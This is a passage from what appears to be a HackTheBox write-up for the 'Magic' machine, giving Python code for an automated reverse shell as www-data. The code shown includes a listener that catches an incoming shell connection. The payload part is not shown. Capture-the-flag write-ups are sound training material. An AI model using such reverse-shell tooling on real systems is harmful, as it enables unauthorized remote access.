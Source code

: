# Auto Shell www-data

First, we will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-23-HackTheBox-Magic/2021-09-23-HackTheBox-Magic%2011:16:09.png)

auto_www_data.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Rev Shell - Magic HackTheBox

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import base64
import urllib.parse

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
```
